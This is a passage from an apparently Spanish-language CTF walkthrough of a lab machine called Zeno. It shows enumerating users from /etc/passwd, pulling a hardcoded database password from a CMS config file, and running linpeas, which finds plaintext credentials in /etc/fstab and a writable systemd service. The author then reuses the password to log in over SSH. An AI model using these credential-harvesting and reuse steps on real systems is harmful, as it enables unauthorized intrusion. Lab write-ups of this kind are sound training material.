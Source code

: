 - Enumeré dos usuarios para una posible escalada:

~~~bash
bash-4.2$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
edward:x:1000:1000::/home/edward:/bin/bash
~~~

- Al estar en un CMS, indagué un poco en los archivos de configuración.
- Encontré una contraseña para la base de datos de los usuarios en la ruta `/var/www/html/rms/connection/config.php`:

~~~php
<?php
    define('DB_HOST', 'localhost');
    define('DB_USER', 'root');
    define('DB_PASSWORD', 'veerUffIrangUfcubyig');
    define('DB_DATABASE', 'dbrms');
    define('APP_NAME', 'Pathfinder Hotel');
    error_reporting(1);
?>
~~~

- Las contraseñas aquí usaban un hash muy difícil de romper, así que lo dejé por el momento.
- Decidí usar ``linpeas``:

~~~bash
╔══════════╣ Permissions in init, init.d, systemd, and rc.d
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#init-init-d-systemd-and-rc-d                                        
You have write privileges over /etc/systemd/system/zeno-monitoring.service                                                        
═╣ Hashes inside passwd file? ........... No
═╣ Writable passwd file? ................ No
═╣ Credentials in fstab/mtab? ........... /etc/fstab:#//10.10.10.10/secret-share        /mnt/secret-share       cifs_netdev,vers=3.0,ro,username=zeno,password=FrobjoodAdkoonceanJa,domain=localdomain,soft   0 0                                               
═╣ Can I read shadow files? ............. No
═╣ Can I read shadow plists? ............ No
═╣ Can I write shadow plists? ........... No
═╣ Can I read opasswd file? ............. No
═╣ Can I write in network-scripts? ...... No
═╣ Can I read root folder? .............. No  
~~~

- Tenemos permiso para escribir en un archivo que poseé contraseñas hardcodeadas.
- Podemos acceder a través de ssh con estas mismas:

~~~bash
┌──(kali💀Dedsec)-[~/Maquinas/Linux/Zeno]
└─$ ssh edward@10.10.55.120
The authenticity of host '10.10.55.120 (10.10.55.120)' can't be established.
ED25519 key fingerprint is SHA256:rRttffFIyZasFZ3kH1UCuXbqoQKD5nKQWgtEudn7nys.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.55.120' (ED25519) to the list of known hosts.
edward@10.10.55.120's password: 
Last login: Tue Sep 21 22:37:30 2021
[edward@zeno ~]$ whoami
edward
~~~
